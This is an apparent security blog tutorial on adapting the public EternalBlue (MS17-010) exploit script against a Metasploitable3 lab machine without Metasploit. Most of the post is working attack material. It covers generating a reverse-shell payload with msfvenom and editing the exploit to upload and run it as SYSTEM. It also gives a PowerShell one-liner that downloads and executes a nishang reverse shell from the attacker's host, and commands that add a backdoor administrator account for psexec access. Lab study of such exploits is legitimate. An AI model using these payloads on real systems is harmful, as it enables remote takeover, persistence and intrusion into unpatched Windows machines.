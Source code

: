 ```yaml
---
layout: post
title:  "Eternal Blue without Metasploit"
date:   2019-10-15 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [Eternal, Blue, Without Metasploit, Exploit modification]
---
```


<h2>Prologue:</h2>
I wanted to create a Without Metasploit series. Here we would look and modify famous exploits without using the Metasploit framework. What would be the best way to start then with Eternal Blue?
<h3> Environment </h3>
The easiest way to find an environment to test on, is to get Hack The Box VIP and attack Blue.
Setting up your lockal vm, try Metasploitable 3 [Metasploitable3](https://github.com/rapid7/metasploitable3) 
I will go with the Metasploitable now. For the EternalBlue to work I had to thisable the firewall on metasploitable3.
Metasploitable ip: 10.0.2.15

Attacker
There are a few things you need to set up on your attacker machine too. First install pip, then impacket. Attacker IP: 10.0.2.4
```
sudo apt-get update
sudo apt install python-pip
git clone https://github.com/SecureAuthCorp/impacket
cd impacket-master
pip install .
```
From here it should work just fine.
<h3> The Exploit </h3>
If you do a ```searchsploit eternalblue``` you will get the exploit 42315.py
![searchsploit](/img/EternalBlue/searchspolit.png)
Copy it to our directory ```searchsploit -m 42315.py```

Now let's start to look at what do we have in this file.

first we can see the lines:
```from impacket import smb, smbconnection
from mysmb import MYSMB```
We already have impacket but what about mysmb? With a little googleing we can find that too.
```wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py```

Now we can go deeper.

```USERNAME = ''
PASSWORD = ''```
We should change this if we find valid smb credentials. Going a little be down, there is a nicely named function find_named_pipe. This means that we
don't need to run other exploit/scanning to find our named pipes because this is already included in the exploit itself. However checking the first lines
of the function reveals the default pipes that the function will search for. ```pipes = [ 'browser', 'spoolss', 'netlogon', 'lsarpc', 'samr' ]``` you can expend
this list if you did not succed for the first try.


<h4>Sample Request:</h4>
First, let's run it agains the target.
[FAIL](/img/EternalBlue/fail.png)
This did not go very well. No named Pipe was found. We can add more possible named pipe to our list, and give it another try. It failed again. From here we have another option. 
If we know valid credentials, then we could try to use it. Adding vagrant/vargrant to the Username Password section.
```USERNAME = 'vagrant'
PASSWORD = 'vagrant'```
Running the code it will execute and create C:\pwned.txt on the machine.
[PWNED](/img/EternalBlue/pwned.PNG)
We can log in and check the file. It should be there. That is ok but vagrant is an admin user. If we have credentials then we probably do not need this exploit at all.

<h3> Eternal Blue as Privilege escalation </h3>
Let's create a test user with test as password. User test should not be admin this time. By loging in as test, you can see that you are unable to create c:\pwned.txt.
[testUser](/img/EternalBlue/test.PNG)
Adding these credentials to our exploit and running it, will once again create the file pwned.txt This means that we have non-admin credentials but we could still execute commands as admin.
We can see on the included picture that user test cannot delete the file.
[testUser](/img/EternalBlue/delete.PNG)
<h3> Modifying the exploit</h3>
In case you can find a working pipe name or use credentials, creating a file on the target machine may not be that usefull for us. Let's modify the exploit code to get a reverse shell.
First let's find the exploit in the code. looking in the code, we can find a function called smb_pwn.
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	```
Let's look at it line by line. First line will create a smb connection. This is what we eill use to interact with the machine.
The next line is a print, this will just write a line for us so we know what is currently happening.
Then we will connect to the Driver C so we can egn our modification there. This is saved in a variable so in the next line we can finaly create a file called pwned.txt.
Finaly we will close the connection.
<h3> Upload shell</h3>
Let's create our reverse shell first:
```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell-x86.exe```
Then modify the code so it will upload and run our exploit
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	smb_send_file(smbConn, 'shell-x86.exe', 'C', '/test.exe')
	service_exec(conn, r'c:\test.exe')
```
The function now only has 3 lines. First we create an smb connection. Then we send our exploit to the target, it will be created in C:/test.exe. Then in the last line we will execute our code and get a reverse shell on our machine on port 443.
First let's start a listener on our attacker machine then execute our code.
```nc-lvnp 443```
[UploadExploit](/img/EternalBlue/uploadExploit.PNG)
We can see that the exploit run and we got back a reverse shell as System.

<h3>To memory</h3>
We got what we wanted. But this is not the best case. We created a file in the system which is detectable. Let's find a better way. We saw that we can execute commands.
With the use of Powershell, we can download things on the machine and executing them while everything will be done in memory.
Let's download the famous nishang powershell shell
```wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1```
Now we have to modify this a little bit. to inmidiatly invoke the reverse shell we should add this line to the end of the file:
```Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 443```
This way when the file gets downloaded with powershell, we will immidiately call the main function with our ip address and port to connect back to. I also renamed the file to test.ps1
Next we need to download the file with our exploit. For this we only need one line in our function.
```service_exec(conn, r"cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.0.2.4/test.ps1')")```
Here we spawn cmd and from there we will call powershell to download and execute the ps1 script that is hosted in our machine. Notice that by adding the extra line to the script, we just need to download the file to get a revers shell.
Finaly we need to host the script somehow. For this go into the folder where the test.ps1 is located and create a http server. For example with:
```python -m SimpleHTTPServer 80```
We will need 3 command window for this to work. one to host our server, one for the listener and one which will execute theexploit itself.
[InvokeExploit](/img/EternalBlue/invoke.PNG)
We can see it worked. pulled the file from our server and we got the reverse shell back.
<h3>More sneaky</h3>
What if we do not want to connect back to our machine to download something, or simple we cannot somehow. We can be much more sneaky. Instead of loading in a reverse shell, we can simply create a new administrator.
This way we will have working admin credentials on the machine and we can connect to it with RDP or psexec. Let's take a look.
```service_exec(conn, r"cmd /c net user attacker2 PassW123 /add")
service_exec(conn, r"cmd /c net localgroup administrators attacker /add")```
Only these two lines are needed in our function and we already added a new administrator user. You will see errors while executing the command. But no worry it is fine in this case.
[addedUser](/img/EternalBlue/adduser.PNG)
Let's execute psexec from our impacket to connect to the machine as an administrator. Go to impacket/examples then run:
```python psexec.py attacker:PassW123@10.0.2.15```
[psexec](/img/EternalBlue/psexec.PNG)
<br>


link[@WarMarx](https://twitter.com/\_WarMarX\_) 
